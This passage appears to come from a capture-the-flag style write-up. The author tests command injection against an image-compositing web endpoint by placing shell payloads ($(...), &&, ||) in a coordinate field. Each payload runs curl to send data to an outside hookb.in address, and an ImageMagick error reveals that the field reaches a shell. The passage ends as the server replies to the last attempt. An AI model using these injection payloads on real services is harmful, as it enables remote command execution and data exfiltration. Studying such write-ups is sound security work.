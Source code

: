 ```js
	headers: {
		"Content-Type": "application/json",
	},
	body: JSON.stringify(jsonData),
});
if (response.status !== 200)
	console.log( `Unexpected response: ${response.status}`);
response = await response.json();
```
In response, the server sent a string<br>
![non-existing-img](https://i.imgur.com/JtPxdjE.png)<br>
So I tried doing it with coordinates
```js
{
    "type":`mspoop.png`,
	"pos":{
		"x":`100`,
		"y":`$(curl -X POST -H "Content-Type: application/json" -d '{"name": "John"}' https://hookb.in/03JmgD39O1c3Mkp3KeXq)`,
	}
}
```
but it just sent another base64 image data response.<br>
So then I tried using && with coordinates
```js
{
	"type":`mspoop.png`,
	"pos":{
		"x":`100`,
		"y":`100 && curl -X POST -H "Content-Type: application/json" -d '{"name": "John"}' https://hookb.in/03JmgD39O1c3Mkp3KeXq`,
	}
}
```
This time it responded with the string <br>
```
Something went wrong :
b"convert-im6.q16: missing an image filename `+100+100' @ error/convert.c/ConvertImageCommand/3226.\n"
```
Aha! So it uses imagemagick to combine the images.<br>
The `||` operator in shell executes the next command if the previous command fails.<br>
So I replaced `&&` with `||` and also placed `||` at the end
```js
"pos":{
		"x":`100`,
		"y":`100 || curl -X POST -H "Content-Type: application/json" -d '{"name": "John"}' https://hookb.in/03JmgD39O1c3Mkp3KeXq ||`,
}
```
Server resonded with
```
```